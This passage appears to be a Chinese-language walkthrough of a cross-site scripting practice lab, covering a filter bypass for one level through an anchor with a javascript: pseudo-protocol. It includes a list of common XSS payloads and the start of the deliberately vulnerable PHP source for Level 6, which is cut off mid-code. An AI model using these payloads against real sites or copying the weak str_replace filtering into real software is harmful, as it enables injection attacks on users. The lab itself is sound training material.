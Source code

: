 ### 注入过程

老规矩注入正常的JavaScript代码，查看页面源代码

[![img](https://img.cccb.rr.nu/path/202504101640314.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131549911.png)

尖括号没有过滤，但是`<script>`中间有个下划线，我们在注入鼠标事件试试，在查看源代码。

[![img](https://img.cccb.rr.nu/path/202504101640316.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131551033.png)

好家伙，鼠标事件也被加了下划线。那么需要使用a标签的JavaScript伪协议实现href属性支持`JavaScript:`伪协议，则：后面的代码会被当成JavaScript来执行。注意这里还需要闭合input标签。

payload：



```xml
"><a href=javascript:alert(1)>
```

点击`">`即可过关。

列举一些常用的xss语句：



```xml
<script>alert(1)</script>

<img src=ganyu οnerrοr=alert(1)>

<svg οnlοad=alert(1)>

<a herf=javascript:alert(1)>

<iframe src="javascript:alert(1)"></iframe>
```

## Level6 (大小写绕过)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level7.php?keyword=move up!"; 
}
</script>
<title>欢迎来到level6</title>
</head>
<body>
<h1 align=center>欢迎来到level6</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
```